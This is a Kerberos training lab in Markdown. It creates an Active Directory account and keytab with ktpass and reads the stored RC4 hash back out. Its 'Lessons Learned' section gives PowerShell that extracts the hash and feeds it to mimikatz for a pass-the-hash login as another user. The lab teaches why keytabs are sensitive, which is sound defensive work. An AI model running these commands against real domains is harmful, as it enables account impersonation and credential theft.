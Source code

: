 # Kerberos 101 Labs

## Create a keytab and inspect it

In this lab you will create a Keytab file. We are not be able to use it for something as Windows does not use Keytab files. Linux machines use Keytab files to authenticate with a Windows Active Directory domain.

In the Linux world or non-Microsoft Kerberos world, Keytab files very similar to the Windows trust relationship. When creating a keytab file, the password hash is stored in the on the given account in the KDC's database as well as the Keytab file.

:ballot_box_with_check: Create a new account in Active Directory and a Keytab file that that account.

```powershell
$ou = New-ADOrganizationalUnit -Name KeyTabTests -PassThru
New-ADUser -Name User1 -Path $ou

ktpass /out c:\krb5.keytab /princ User1$@a.vm.net /mapuser User1 /crypto RC4-HMAC-NT /ptype KRB5_NT_PRINCIPAL /pass Somepass2 /target KerbDC2.a.vm.net
```

Even if we cannot use the Keytab file, it is quite interesting to look at it. We can read the Keytab file with `ktpass.exe`.

:ballot_box_with_check: Open the Keytab file suing the following command:

```powershell
ktpass.exe /in C:\krb5.keytab
```

The output looks like this:

```text
Existing keytab:

Keytab version: 0x502
keysize 49 User1$@a.vm.net ptype 1 (KRB5_NT_PRINCIPAL) vno 3 etype 0x17 (RC4-HMAC) keylength 16 (0x39adbe3fcd45600a31b9ee56122b4a87)

WARNING: No principal name specified.
```

:question: Do you see any critical information in the output?

:question: How careful / secure should Keytab files be treated?

<details><summary><h2>Lessons Learned</h2></summary>

:bulb: Kerberos Keytab files are the equivilant to a Windows trust relationship.

:bulb: Because of that, the Keytab file stores the generated password hash which makes it pretty sensitive.

:warning: If someone has access to the Keytab file, using the hash to act as the user the Keytab file is mapped to, it quite easy:

```powershell
$keytab = ktpass.exe /in C:\krb5.keytab 2>&1
$keytab = -join $keytab 

$keytab -match '\(0x(?<Hash>[a-z0-9]+)\)'
$Matches.Hash

C:\mimikatz_trunk\x64\mimikatz.exe "sekurlsa::pth /user:install /domain:a /ntlm:$($Matches.Hash) /run:powershell" exit
```

</details>
